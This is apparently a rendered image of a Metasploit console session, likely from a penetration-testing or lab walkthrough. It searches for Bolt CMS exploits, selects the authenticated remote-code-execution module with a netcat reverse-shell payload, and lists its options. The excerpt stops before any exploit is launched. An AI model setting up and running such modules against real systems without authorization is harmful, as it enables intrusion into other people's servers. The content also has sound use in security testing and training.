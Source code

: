 **Output**

```bash
msf6 > search bolt cms

Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/unix/webapp/bolt_authenticated_rce  2020-05-07       great      Yes    Bolt CMS 3.7.0 - Authenticated Remote Code Execution
   1  exploit/multi/http/bolt_file_upload         2015-08-17       excellent  Yes    CMS Bolt File Upload Vulnerability


Interact with a module by name or index. For example info 1, use 1 or use exploit/multi/http/bolt_file_upload                                                   

msf6 > use 0
[*] Using configured payload cmd/unix/reverse_netcat
msf6 exploit(unix/webapp/bolt_authenticated_rce) > options

Module options (exploit/unix/webapp/bolt_authenticated_rce):

   Name               Current Setting    Required  Description
   ----               ---------------    --------  -----------
   FILE_TRAVERSAL_PA  ../../../public/f  yes       Traversal path from "/files
   TH                 iles                         " on the web server to "/ro
                                                   ot" on the server
   PASSWORD                              yes       Password to authenticate wi
                                                   th
   Proxies                               no        A proxy chain of format typ
                                                   e:host:port[,type:host:port
                                                   ][...]
   RHOSTS                                yes       The target host(s), see htt
                                                   ps://docs.metasploit.com/do
                                                   cs/using-metasploit/basics/
                                                   using-metasploit.html
   RPORT              8000               yes       The target port (TCP)
   SSL                false              no        Negotiate SSL/TLS for outgo
                                                   ing connections
   SSLCert                               no        Path to a custom SSL certif
                                                   icate (default is randomly
                                                   generated)
   TARGETURI          /                  yes       Base path to Bolt CMS
   URIPATH                               no        The URI to use for this exp
                                                   loit (default is random)
   USERNAME                              yes       Username to authenticate wi
                                                   th
   VHOST                                 no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to
                                       listen on. This must be an address on t
                                       he local machine or 0.0.0.0 to listen o
                                       n all addresses.
   SRVPORT  8080             yes       The local port to listen on.

```